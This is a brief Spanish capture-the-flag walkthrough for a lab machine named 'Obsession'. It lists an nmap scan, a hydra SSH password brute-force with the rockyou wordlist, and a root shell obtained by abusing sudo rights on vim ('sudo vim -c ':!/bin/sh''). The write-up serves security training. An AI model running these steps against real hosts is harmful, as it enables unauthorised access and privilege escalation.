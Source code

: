 Maquina: Obsession
Autor: Juan
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo
Vemos el puerto 80 abierto
miramos la web https:172.17.0.2
miramos el codigo y encontramos un posible usuario

sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

sudo -l
y encontramos que podemos ejecutar vim como root

sudo vim -c ':!/bin/sh'
whoami
